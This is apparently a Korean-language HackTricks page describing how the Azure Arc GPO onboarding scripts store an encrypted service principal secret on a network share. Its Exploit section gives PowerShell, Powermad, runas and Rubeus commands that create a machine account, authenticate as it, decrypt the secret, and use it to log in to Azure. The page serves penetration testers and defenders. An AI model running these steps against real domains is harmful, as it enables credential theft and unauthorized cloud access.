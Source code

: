# Az - Arc 취약한 GPO 배포 스크립트

{{#include ../../../banners/hacktricks-training.md}}

### 문제 식별

Azure Arc는 그룹 정책 개체 방법을 사용하여 새로운 내부 서버(도메인에 가입된 서버)를 Azure Arc에 통합할 수 있도록 합니다. 이를 위해 Microsoft는 온보딩 절차를 시작하는 데 필요한 배포 툴킷을 제공합니다. ArcEnableServerGroupPolicy.zip 파일 내에는 다음 스크립트가 포함되어 있습니다: DeployGPO.ps1, EnableAzureArc.ps1, 및 AzureArcDeployment.psm1.

DeployGPO.ps1 스크립트를 실행하면 다음 작업이 수행됩니다:

1. 로컬 도메인 내에 Azure Arc 서버 온보딩 GPO를 생성합니다.
2. 온보딩 프로세스를 위해 생성된 지정된 네트워크 공유에 EnableAzureArc.ps1 온보딩 스크립트를 복사하며, 이 공유에는 Windows 설치 패키지도 포함되어 있습니다.

이 스크립트를 실행할 때 시스템 관리자는 두 가지 주요 매개변수인 **ServicePrincipalId**와 **ServicePrincipalClientSecret**을 제공해야 합니다. 또한 도메인, 공유를 호스팅하는 서버의 FQDN, 공유 이름과 같은 다른 매개변수도 필요합니다. 테넌트 ID, 리소스 그룹 및 기타 필요한 정보와 같은 추가 세부정보도 스크립트에 제공되어야 합니다.

DPAPI-NG 암호화를 사용하여 지정된 공유의 AzureArcDeploy 디렉토리에 암호화된 비밀이 생성됩니다. 암호화된 비밀은 encryptedServicePrincipalSecret이라는 이름의 파일에 저장됩니다. 이와 관련된 증거는 DeployGPO.ps1 스크립트에서 찾을 수 있으며, 여기서 암호화는 ProtectBase64를 호출하여 $descriptor와 $ServicePrincipalSecret을 입력으로 사용하여 수행됩니다. descriptor는 도메인 컴퓨터 및 도메인 컨트롤러 그룹 SID로 구성되어 있어, ServicePrincipalSecret은 도메인 컨트롤러 및 도메인 컴퓨터 보안 그룹에 의해서만 복호화될 수 있도록 합니다.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

다음 조건이 있습니다:

1. 내부 네트워크에 성공적으로 침투했습니다.
2. Active Directory 내에서 컴퓨터 계정을 생성하거나 제어할 수 있는 능력이 있습니다.
3. AzureArcDeploy 디렉토리를 포함하는 네트워크 공유를 발견했습니다.

AD 환경 내에서 머신 계정을 얻는 방법은 여러 가지가 있습니다. 가장 일반적인 방법 중 하나는 머신 계정 쿼터를 악용하는 것입니다. 또 다른 방법은 취약한 ACL 또는 다양한 다른 잘못된 구성으로 머신 계정을 손상시키는 것입니다.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
기계 계정을 얻으면 이 계정을 사용하여 인증할 수 있습니다. runas.exe 명령어와 netonly 플래그를 사용하거나 Rubeus.exe로 패스-더-티켓을 사용할 수 있습니다.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
컴퓨터 계정에 대한 TGT가 메모리에 저장되어 있으면, 다음 스크립트를 사용하여 서비스 주체 비밀을 복호화할 수 있습니다.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
대안으로, 우리는 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)를 사용할 수 있습니다.

이 시점에서, 우리는 암호화된ServicePrincipalSecret 파일과 동일한 네트워크 공유에 저장된 ArcInfo.json 파일에서 Azure에 연결하는 데 필요한 나머지 정보를 수집할 수 있습니다. 이 파일에는 TenantId, servicePrincipalClientId, ResourceGroup 등과 같은 세부 정보가 포함되어 있습니다. 이 정보를 사용하여 Azure CLI를 통해 손상된 서비스 주체로 인증할 수 있습니다.

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
